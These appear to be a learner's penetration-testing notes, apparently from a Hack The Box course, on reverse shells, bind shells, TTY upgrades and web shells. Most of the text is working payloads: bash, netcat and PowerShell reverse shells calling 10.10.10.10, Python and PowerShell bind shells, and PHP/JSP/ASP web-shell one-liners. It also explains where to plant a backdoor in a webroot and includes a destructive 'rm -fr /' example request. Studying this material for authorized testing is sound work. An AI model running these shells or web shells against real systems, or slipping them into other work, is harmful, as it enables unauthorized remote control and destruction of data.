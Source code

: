 Shells are really important, as this is how you actually connect to a computer to execute a series of commands. 

Shells are needed when a constant and reliable connection is necessary to dig deeper into a host or network. The benefit of shells- you don't always need login credentials to access them and create sessions. 

### Types of shells

#### Reverse shell

- most common type of shell, easiest to deploy
- If an RCE is discovered on a target, we can start a netcat listener on any port locally. Then, a simple reverse shell command can be launched through the RCE targeting our local port, and then a reverse shell connection is established. 

##### netcat listener
really simple:
```bash
nv -nvlp <1234>
```


where:
-l listen mode, waiting for the connection
-v verbose, know when a connection is received
-n disables DNS resolution and only connect from/to IP addresses to speed up the connection
-p specifies the port number

##### reverse shell command
see Payload All The Things for a list of reverse shell commands in various langs:
https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

certain reverse shell commands are simple, and more reliable. 
Bash:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

powershell script is really long:
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

Reverse shells are really handy and quick, but they arent as stable. its much easier for a command to get dropped and lose connection. If its lost, the original attach chain has to be redone to set up the shell again, which is tedious and unreliable if discovered.

#### Bind Shell
Unlike the reverse shell, this is where we connect to the target's listening port. When a bind shell command is executed, it opens up a listening port on the target's computer. From there, we connect to it from our local shell onto that port. 

Once again, Payload All The Things is a great resource.
https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/


Basically, this is making the target initiate a reverse shell, which makes it slightly more reliable. These commands are executed FROM THE TARGET HOST

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

Then, we can use netcat to connect to the target host. 

```bash
nc <0.0.0.0> <1234>
```

This is only a little bit more reliable, because if the connection gets dropped than its easy to just reconnect to it by connecting to the target port. However, if we are discovered and the ports are closed, than the exploit chain has to be rerun to rebuild the reverse shell. 


### upgrading to TTY
Once a shell is established, it is a completely rudamentary shell. it will only have typing command and backspace, no capabilities of scrolling, moving cursor, etc. So, we can upgrade to TTY in order to improve our shell funtionality.

There are multiple ways to do this, one is the python/stty method.

in netcat, execute the following:
```shell-session
python -c 'import pty; pty.spawn("/bin/bash")'
```

After that command is run, hit ctrl+z to put the shell into background and get onto our local terminal. Then execute the following stty command:

```shell-session
www-data@remotehost$ ^Z

Winn13@htb[/htb]$ stty raw -echo
Winn13@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
```

when fg is entered, it will bring back the netcat shell. Either, you can hit Enter in the shell, or input 'reset' and hit ehter to bring it back. 

There may be visual bugs affecting the terminal dimensions and its text size, as the remote machine does not know our local display dimensions. you can run these to see the LOCAL dimensions:

```shell
echo $TERM
```

```shell
stty size
```

The first command showed us the `TERM` variable, and the second shows us the values for `rows` and `columns`, respectively. Now that we have our variables, we can go back to our `netcat` shell and use the following command to correct them:

```shell-session
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```


### Web Shells

web shells are different than standard shells. Its almost like using an API as a shell. Web shells use web scripts, like php, aspx, or javascript to send commands through request parameters like GET or POST 


#### writing a web shell
Web shell commands are different depending on what service is being hosted by the target. We need to write our web shell that would take our command through a GET request, execute it, and print its output back. Web shells are typically really short and can be memorized easily. 

Basically, these are really simple commands that show we can use the web scripting language to place and run a command. 

```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```

This is what a web shell is. The ability to execute commands through a web service. 

Now that we have found a web shell, we can place a **web shell script**
The web shell script must be placed in the hosts' webroot to execute the script through the browser

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| `Apache`   | /var/www/html/         |
| `Nginx`    | /usr/local/nginx/html/ |
| `IIS`      | c:\inetpub\wwwroot\|   |
| `XAMPP`    | C:\xampp\htdocs\|      |

After we determine where the webroot is, we can then use the web shell to place our web shell script i.e. shell.php. This is basically a back door. Once an arbitrary file is uploaded onto a webserver, it can be accessed and run from any endpoint. For instance, here is a simple attack chain:

A misconfiguration is found that allows us to upload files on an apache server with php.

we upload this php script to /var/www/html/shell.php
```php
<?php system($_REQUEST["cmd"]); ?>
```

Now, the command is accessible from anywhere, as long as you know the shell script exists on the remote host.

To execute commands through the shell, all you have to do is visit (or even better use cURL):
https://targethost.com/uploadsOrWhatever/shell.php?cmd=whoami
or, other commands like
https://targethost.com/uploadsOrWhatever/shell.php?cmd=rm%20-fr%20/ because %20 is the url-encoded version of space.



Overall, websell scripts aren't as convenient as reverse shell or bind shells. However, if you have code execution on a remote host and can escalate to user or admin priv, you can just set up a bind shell from there. Alternatively,you can use python scripts to automate the process and give semi interactive scripts like the web shell is an API.